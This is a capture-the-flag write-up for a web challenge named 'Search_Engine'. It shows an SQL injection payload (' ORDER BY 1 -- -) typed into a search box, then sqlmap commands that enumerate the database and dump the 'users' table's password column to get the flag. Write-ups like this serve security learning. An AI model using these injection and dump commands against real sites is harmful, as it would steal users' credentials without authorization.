 <h2>Search_Engine WEB</h2>

Lets start with searching for random things

![image](https://user-images.githubusercontent.com/67879936/222456164-b405ed98-ca49-41b6-b082-eeac7cabee11.png)

You should get something like this. After checking for a while I remembered solving a room on TryHackMe that has a similar search box but was vulnerable to SQL Injection. So, I tried to test this for SQL Injection.

Let’s start by using a simple SQLI payload that checks the number of columns available, this is to test if the search box is vulnerable to SQL Injection.

```payload used: ‘ ORDER BY 1 — -```

![image](https://user-images.githubusercontent.com/67879936/222456318-663cb77d-a4e5-4cfd-ac61-68e5f11efbac.png)

Nice, from the above screenshot we can tell the search box is vulnerable to SQL Injection. I exploited this by capturing the request using burpsuite and using sqlmap to dump tables and columns

So, capturing the search request on burpsuite we should get this

![image](https://user-images.githubusercontent.com/67879936/222456445-e4d04376-7b1d-42ba-b0d1-acea5108a5ef.png)

After capturing the request lets go ahead to store the contents on our machine. Copy the contents and paste it in any editor of your choice then save it

![image](https://user-images.githubusercontent.com/67879936/222456519-2dda2d86-3521-4f9e-a3f6-6b2ff05113e3.png)

After doing this, we can go ahead to use sqlmap.

Lets start with checking the tables available on the server.

>command:sqlmap -r req.txt --dbs --tables

-r →To read the file
— dbs → To enumerate database
— tables → To enumerate tables

![image](https://user-images.githubusercontent.com/67879936/222456758-5779702e-8c00-46c4-847b-cac8b6fde546.png)

![image](https://user-images.githubusercontent.com/67879936/222456861-defa892e-026b-4adf-abdb-73f68f94ca04.png)

![image](https://user-images.githubusercontent.com/67879936/222456913-d5311321-8f2b-4cde-86ee-df0ec7dff429.png)

![image](https://user-images.githubusercontent.com/67879936/222456979-fad83cd8-cf01-4f79-bc58-754a918d343b.png)

![image](https://user-images.githubusercontent.com/67879936/222457022-8c7993ed-4de2-4683-8865-affd0eaa6b41.png)

Okay, from the above screenshots we found out that the name of the database is “search”, we also found 2 tables “search_engine” and “users”

Now, lets go ahead and dump the contents of the columns in the “users” table

>command:sqlmap -r req.txt -D search -T users --columns --dump

-r → To read the file
-D → Database Name
-T → Table’s Name
--columns → To enumerate columns
--dump → dump all the contents in the columns

![image](https://user-images.githubusercontent.com/67879936/222457299-ae330eaa-b5a5-446d-92d9-8f5aead86ae9.png)

![image](https://user-images.githubusercontent.com/67879936/222457328-aede9494-bca0-4ad9-a0a1-d4798e1941d5.png)

Boom, we got the flag in the column name “password”

Flag:```FLAG{!nj3ct!0n_5l4y3r_XD}```












